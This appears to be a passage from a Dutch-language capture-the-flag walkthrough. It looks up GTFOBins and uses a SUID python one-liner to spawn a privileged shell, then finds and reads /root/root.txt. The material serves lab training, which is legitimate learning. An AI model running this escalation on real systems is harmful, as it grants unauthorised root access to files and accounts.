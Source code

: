 #### Antwoord: 

```
/usr/bin/python
```

### Search on the internet for "gftobins python". What is the URL of the gihub page?

Kopieer onderstaande en plak in de google zoekbalk:
```
gftobins python
```

Het eerste resultaat zou het juiste moeten zijn. Klik op de link en kopieer de URL.

#### Resultaat:
![alt text]("https://github.com/SvenvG0/SvenvG0/blob/main/images/gftobins python.png"?raw=true)

#### Antwoord:

```
https://gtfobins.github.io/gtfobins/python/
```

### Search for the file root.txt and open it.

Om te zoeken in de mappen van root en de bestanden te openen hebben we root rechten nodig. Om dit voor elkaar te krijgen maken we gebruik van de rootrechten in python.

```bash
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

Controleer of je root bent door:
```bash
whoami
```
Zoek nu naar de file:
```bash
find / -type f -name root.txt 2> /dev/null
```

Gebruik `cat` om de inhoud te bekijken
```bash
cat /root/root.txt
```

#### Resultaat:
![alt text](https://github.com/SvenvG0/SvenvG0/blob/main/images/root_txt.png?raw=true)
